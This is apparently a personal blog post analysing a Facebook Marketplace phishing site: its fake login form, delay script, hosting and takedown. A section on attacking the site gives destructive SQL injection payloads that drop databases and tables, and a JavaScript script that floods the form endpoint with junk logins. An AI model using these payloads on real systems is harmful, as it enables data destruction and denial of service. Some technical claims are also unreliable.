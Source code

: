<!--
{
  "title": "FB Marketplace Phishing Website Analysis",
  "time": "2025-04-13T01:21:00.000Z",
  "description": "My Experience with a Facebook Marketplace Phishing Scam Recently, I received a message from a random person on Facebook Marketplace who wanted to trade an item. He provided a link to what he claimed was his listing, but upon closer inspection, I realized it wasn’t a real Facebook Marketplace page...."
}
-->

## My Experience with a Facebook Marketplace Phishing Scam

![facebook-message-image.webp](/images/uploads/facebook-message-image.webp)

Recently, I received a message from a random person on Facebook Marketplace who wanted to trade an item. He provided a link to what he claimed was his listing, but upon closer inspection, I realized it wasn’t a real Facebook Marketplace page. Instead, it was a phishing website designed to look like Facebook, created to steal people’s email addresses, phone numbers, and passwords.


## Understanding Phishing Attacks

Online scams come in many forms, and phishing is one of the most common. Cybercriminals often can't attack large services directly due to strong security measures. Instead, they target individuals through emails, messages, or social media platforms, tricking them into revealing their credentials. These stolen credentials might not only be used for Facebook but also for financial accounts and other services.

Since I encountered this phishing website, I decided to analyze it and learn from it.

---
## Phishing Website Analysis
![phishingwebsiteimage.webp](/images/uploads/phishingwebsiteimage.webp)

### The phishing website’s login form looked like this:
![phishingwebsiteloginform.webp](/images/uploads/phishingwebsiteloginform.webp)

From this form, I could determine that the website's backend is built with PHP, as indicated by the action="do.php" attribute. Additionally, the website doesn’t validate whether the input is an email or a phone number, meaning it accepts both formats.

### The phishing website’s Javascript code:

![phishingwebistescript.webp](/images/uploads/phishingwebistescript.webp)

This script reveals an interesting trick: it displays a loading overlay for five seconds before submitting the form. This delay is likely an attempt to make the login process feel more legitimate to victims.

Additionally, I noticed that some comments in the code were written in Romanian, which suggests that the person who created the phishing site might speak Romanian. However, this does not confirm their nationality, as other Eastern Europeans (such as Russians, Ukrainians, or Poles) may also use Romanian. And this website can be done by a geek job as well. There are people who post a job to copy a website from Upwork.

![upworkwebsitecopyimage.webp](/images/uploads/upworkwebsitecopyimage.webp)

### Where do phishers host their websites?

Most phishers avoid cloud platforms like AWS or Google Cloud, as those services charge based on usage. If someone floods their phishing website with traffic, it could lead to high hosting costs and even credit card cancellations. Instead, they often use cheap shared hosting services, which are easier to shut down when reported.

---
## How could someone attack this phishing website?

> Disclaimer: Attacking someone’s server can be illegal depending on your country’s laws. This content is for educational purposes only—do not use it to harm others.

### 1. SQL injection (Potentially deleting their database)
Older versions of MySQL were vulnerable to SQL injection attacks that could delete databases. Here’s an example of an attack command that could attempt to remove their database:

```
'; DROP DATABASE information_schema; --
```

#### A more advanced version dynamically identifies and deletes tables:
```
'; SET @t = (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1); SET @query = CONCAT('DROP TABLE ', @t); PREPARE stmt FROM @query; EXECUTE stmt; --
```

### 2. Flooding the database with junk data (DDoS-like attack)

A phishing website’s database may not be well-optimized, and flooding it with thousands of fake logins could slow it down or crash it. Since the phishing website redirects after submission, an attacker would need a script that sends junk data without redirection.

Here’s a javascript that could be used:

```
function sendFakeDataRepeatedly(times, delay) {
    let i = 0;
    let interval = setInterval(() => {
        if (i >= times) {
            clearInterval(interval);
            console.log("Finished sending fake data.");
            return;
        }

        let formData = new FormData();
        formData.append("email", `stop.phishing.${i}@please.com`);
        formData.append("password", `stop.phishing.please`);

        fetch("do.php", {  // Change this if the endpoint is different
            method: "POST",
            body: formData,
        })
        .then(response => console.log(`Sent fake data ${i + 1}/${times}`))
        .catch(error => console.error("Error:", error));

        i++;
    }, delay);
}

// Run: Sends 1000 fake entries every 0.5 seconds
sendFakeDataRepeatedly(1000, 500);
```
This script continuously submits fake login credentials to flood the database. If the phishing site is hosted on a cloud-based pay-per-use platform, the increased traffic could drive up their costs significantly.

---
## What happened to the phishing website?

Eventually, the phishing website was shut down by the hosting provider. The phishing website was hosted on a UK-based hosting service, which suspended it after detecting abuse.

---
## Conclusion

Phishing remains a major cybersecurity threat, and attackers constantly find new ways to trick people into revealing their credentials. By analyzing phishing websites, we can better understand how they work and how to protect ourselves and others.

If you ever come across a suspicious website, report it to the relevant authorities and avoid engaging with it. Stay safe online!

